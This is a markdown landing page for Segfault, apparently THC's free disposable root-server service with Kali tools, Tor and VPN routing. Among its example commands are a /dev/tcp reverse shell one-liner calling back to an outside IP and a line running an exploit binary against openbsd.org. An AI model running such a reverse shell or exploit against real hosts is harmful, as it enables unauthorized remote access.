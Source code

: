 ```yaml
---
layout: default
---
```


<div style="text-align:center"><h1>Disposable Root Servers</h1></div>

<div style="width:80%; margin:auto">
</div>

### Log in

```shell
ssh root@segfault.net # The password is 'segfault'
```

{:refdef: style="text-align: center;"}
![login screen](sf-login.png){:height="80%" width="80%"}
{: refdef}

### What it does

Segfault offers free unlimitd Root Servers. A new server (inside a Virtual Machine) is created for every SSH connection. 

* Dedicated ```Root Server``` for every user.
* Pre-installed tools on Kali-Linux.
* Outgoing traffic is routed through NordVPN/CryptoStorm/Mullvad.
* Reverse TCP/UDP port on a public IP.
* Transparent TOR to connect to ```.onion``` addresses.
* Log in via ```.onion```, ```.gsocket``` or direct ```ssh``` (port 22 or 443).
* Encrypted DNS traffic (DNS over HTTPS).
* Pre-configured ```.onion``` web server. Just put your files in /onion.
* Encrypted storage in ```/sec``` and ```/home``` with your password. 
* Encrypted storage is only accessible while you are logged in. Keys are wiped on log out.
* Only the user can decrypt the data. We do not have the key.
* No Logs.

### Show me!

The servers are a great place to compile *stuff* and to test *stuff*.

**Install any app you like:**
```shell
apt install nmap && nmap -thc
```

**Work the Internet**
```shell
ping 1.1.1.1
curl ipinfo.io | jq
ssh blah@anotherserver.com
./7350-sshx3-expl openbsd.org
```

**Publish your webpage on the Darknet:**
```shell
# Share files anonymously:
echo "My First File Shared on The Onion Router (TOR) network" >/onion/helloworld.txt
```
```shell
# Or publish a full webpage (using Markdown syntax):
# Edit your webpage in /sec/www/content/*.md and then publish them:
cd /sec/www && make html
```

**Work the DarkNet:**
```shell
w3m http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/
ssh root@ta6kb6vqm3vd7vlgvf7k4nbhfzst2yfy52t6dqzmz2plteewn7ynmtad.onion
```

**Connect to IRCNet:**
```shell
su user -c "irssi -c ircnet -n MyNickName"
```

**We allow port forwarding and proxies:**
```shell
ssh -D 127.1:1080 root@segfault.net
# then from another Terminal on your workstation:
curl -x socks5h://0 ipinfo.io
curl -x socks5h://0 http://6nhmgdpnyoljh5uzr5kwlatx2u3diou4ldeommfxjz3wkhalzgjqxzqd.onion/ 
```

**Connect to your own public PORT:**  
```shell
# On your server:
nc -vnlp 34868 # Find your IP & PORT during first log in.
```
```shell
# On another server start a connect back reverse shell to your IP & PORT:
setsid bash -i &>/dev/tcp/185.117.118.23/34868 0>&1 &
```

### How it works

Read the [FAQ](faq) and join us on [Telegram](https://t.me/thcorg) or read the source on [GitHub](https://github.com/hackerschoice/segfault).

This is a **free service** and there are [some restrictions](youcheapfuck) in place. You may want to [pay for an upgrade and go unrestricted](buy-an-upgrade).

The **PREMIUM* service has no restriction. Go premium by donating money or contact us - we give premium access to most users who work on a cool project or users who participate in our discussions.

### Similar Services

- [SDF Public Access Unix](http://sdf.org/)
- [FreeShell](https://freeshell.de/)
- [Oracle Cloud Free Tier](https://www.oracle.com/uk/cloud/free/)
- [Play With Docker](https://www.docker.com/play-with-docker/)
- [Trash.net](https://www.trash.net/)

### Love Research. Hate Abuse.

We do not tolerate abuse. Contact us on [Telegram](https://t.me/thcorg) or email root at thc.org if you have any concerns.

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  
